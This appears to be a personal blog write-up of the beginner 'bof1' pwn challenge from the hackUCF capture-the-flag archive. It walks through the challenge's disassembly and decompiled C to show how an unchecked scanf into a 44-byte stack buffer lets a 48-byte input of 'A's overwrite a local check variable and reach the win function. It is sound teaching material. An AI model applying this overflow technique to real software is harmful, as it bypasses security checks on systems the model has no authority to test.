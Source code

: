 ```yaml
---
title: "hackucf: bof1"
layout: archive
date:   2021-02-27
tags: jeopardy
tags_label: true
---
```


Challenge from the hackUCF archive, in the pwn category.

![bof1/Screenshot_2021-02-27_Capture_The_Flag_At_UCF.png](/assets/images/bof1/Screenshot_2021-02-27_Capture_The_Flag_At_UCF.png)

My second BOF challenge completed 😃

Trying to learn without using ghidra, and with just assembly. 💀

Here is the main function:

```
;-- main:
0x00401246      invalid
0x00401247      invalid
0x00401248      invalid
0x00401249      cli
0x0040124a      push    rbp
0x0040124b      mov     rbp, rsp
0x0040124e      sub     rsp, 0x30
0x00401252      mov     dword [rbp - 4], 0
0x00401259      lea     rax, qword [rbp - 0x30]
0x0040125d      mov     rsi, rax
0x00401260      lea     rdi, qword [0x00402024]
0x00401267      mov     eax, 0
0x0040126c      call    __isoc99_scanf ; sym.imp.__isoc99_scanf
0x00401271      cmp     dword [rbp - 4], 0
0x00401275      je      0x40127e
0x00401277      call    win        ; sym.win
0x0040127c      jmp     0x40128a
0x0040127e      lea     rdi, qword str.nope ; 0x402027
0x00401285      call    section..plt.sec
0x0040128a      mov     eax, 0
```

Walking through it:

```
rbp - base pointer, pointers to the bottom/base of the stack frame
rsp - points to the top of the current stack frame
```

```
0x0040124e      sub     rsp, 0x30  <-- stack of size 48 bytes
```

Move 0 (4 bytes) into the address [rbp-4], (basically set `var_b = 0;`)

```
0x00401252      mov     dword [rbp - 4], 0
```

Load the effective address of [rbp-0x30] into the rax register.

```
0x00401259      lea     rax, qword [rbp - 0x30]
```

We can now visualize the stack, with var_a being the variable being at rbp-0x30, and var_b being at the rbp-4.

![bof1/bof.png](/assets/images/bof1/bof.png)

This next block setups the scanf() call with the var_a being passed in as var_a so the call is `scanf([0x00402024], var_a);` 

```
0x0040125d      mov     rsi, rax
0x00401260      lea     rdi, qword [0x00402024]
0x00401267      mov     eax, 0
0x0040126c      call    __isoc99_scanf ; sym.imp.__isoc99_scanf
```

We now compare var_b to 0, if var_b is equal to 0 we jump to 0x401270 which prints nope!

```
0x00401271      cmp     dword [rbp - 4], 0
0x00401275      je      0x40127e  <---- jump to the line that prints nope
```

Otherwise it calls the function win, which opens the file containing the flag.

```
0x00401277      call    win        ; sym.win
```

To exploit this we want to overflow the buffer of var_a so we can overwrite var_b to equal something besides 0.

Since var_a is of size 44, we need to write more that 44 bytes to it.

```
crazyeights@es-base:~$ python3 -c 'print("A"*48)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

I used 48 bytes, and I created a flag.txt file so it would get an error when it tried to open it.

![bof1/Screenshot_from_2021-02-27_23-38-25.png](/assets/images/bof1/Screenshot_from_2021-02-27_23-38-25.png)

We now have the flag!  We can see flag.txt being opened when we run the program with strace.

![bof1/Screenshot_from_2021-02-27_23-38-40.png](/assets/images/bof1/Screenshot_from_2021-02-27_23-38-40.png)

Here is the actual code, which is much easier to read than assembly. 😑

```
undefined8 main(void)

{
  undefined local_38 [44];
  int local_c;
  
  local_c = 0;
  __isoc99_scanf(&DAT_00402024,local_38);
  if (local_c == 0) {
    puts("nope!");
  }
  else {
    win();
  }
  return 0;
}
```

I am terrible at explaining things, I hope that was okay.

FIN. 🥳